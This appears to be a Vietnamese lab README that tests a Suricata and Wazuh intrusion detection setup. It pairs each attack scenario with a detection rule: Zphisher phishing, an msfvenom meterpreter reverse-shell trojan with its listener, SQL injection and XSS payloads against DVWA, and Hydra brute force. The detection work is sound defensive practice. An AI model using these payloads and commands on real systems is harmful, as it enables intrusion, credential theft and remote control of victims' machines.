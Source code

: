 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:  
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web  
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát  
Môi trường kiểm thử: website DVWA  
![](Image/DVWA_dashboard.png)  
  
### SQL injection
Dùng các payload sau để kiểm tra SQL injection:  
‘ OR 1=1#  
![](Image/WEB_SQL1.png)  
  
' union select table_name,null from information_schema.tables#  
![](Image/WEB_SQL2.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[ALERT] SQL Injection Keywords Detected"; flow: to_server, established; content:"'"; http_uri; pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i"; classtype:web-application-attack; sid:1000021; rev:3;)  
  
Giải thích rule:  
- flow: to_server, established: lưu lượng từ client đến server qua kết nối HTTP đã thiết lập  
- content:"'" + http_uri: kiểm tra có dấu ' trong URI  
- pcre:"/('|- - |#|%27|%23)\s*(or | and )?|union\s+select/i": Regex tìm các pattern SQL Injection như ' or 1=1, --, #, %27, union select  
- classtype:web-application-attack: tấn công ứng dụng web
  
Phía suricata  
![](Image/WEB_SQL3.png)  
  
Phía Wazuh  
![](Image/WEB_SQL4.png)  
  
### XSS (Reflected, Restored)
#### XSS Reflected
Payload XSS Reflected  
Chèn <svg onload=alert('BugBot19 was here')> vào ô What’s your name  
![](Image/WEB_XSSREFLECT1.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Reflected XSS attempt - <script>"; content:"<script>"; nocase; http_uri; sid: 1001001; rev:1;)  
alert http any any -> any any (msg:"Reflected XSS attempt - <img "src=x onerror">"; content:"<img src=x onerror"; nocase; http_uri; sid:1001002; rev:1;) alert http any any -> any any (msg:"Reflected XSS attempt - alert("; content:"alert("; nocase; http_uri; sid:1001003; rev:1;)  

Giải thích rule:  
- http_uri: kiểm tra trên phần URI  
- content:"<script>", "<img src=x onerror", "alert(": các payload XSS phổ biến  
- nocase: không phân biệt hoa thường  
  
Phía suricata  
![](Image/WEB_XSSREFLECT2.png)  
  
Phía Wazuh  
![](Image/WEB_XSSREFLECT3.png)  
  
#### XSS Restored
Payload XSS Restored  
Chèn <script>alert(document.domain)</script> vào ô Message  
![](Image/WEB_XSSRESTORE1.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Stored XSS Detected in HTTP response"; content:"<script>"; nocase; http_server_body; sid:1001004; rev:1;)  
alert http any any -> any any (msg:"Stored XSS Detected - <img "src=x onerror">"; content:"<img src=x onerror"; nocase; http_server_body; sid: 1001005; rev:1;)  

Giải thích rule:  
- http_server_body: kiểm tra nội dung phần body trả về từ server
- content:"<script>", "<img src=x onerror": payload XSS điển hình

Phía suricata  
![](Image/WEB_XSSRESTORE2.png)  
  
Phía Wazuh  
![](Image/WEB_XSSRESTORE3.png)  
  
### Brute Force
Dùng công cụ Hydra để triển khai brutefoce:  
hydra -l admin -P /usr/share/wordlists/rockyou.txt (IP nạn nhân) http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=low; PHPSESSID=(Session của kẻ tấn công):F=Username and/or password incorrect."  
![](Image/WEB_BRUTEFORCE1.png)  
![](Image/WEB_BRUTEFORCE2.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"Brute Force Attempt to DVWA (GET)"; flow: to_server,established; content: "GET"; http_method; content:"/vulnerabilities/brute/"; http_uri; threshold: type both, track by_src, count 5, seconds 10; sid:1000011; rev:1;)  

Giải thích rule:  
- http_method: GET + http_uri: "/vulnerabilities/brute/": yêu cầu GET đến endpoint brute-force  
- threshold: nếu 1 IP gửi >=5 yêu cầu trong 10 giây, sẽ trigger alert  
- track by_src: theo dõi theo địa chỉ IP nguồn (client)

Phía suricata  
![](Image/WEB_BRUTEFORCE3.png)  
  
Phía Wazuh  
![](Image/WEB_BRUTEFORCE4.png)  
  
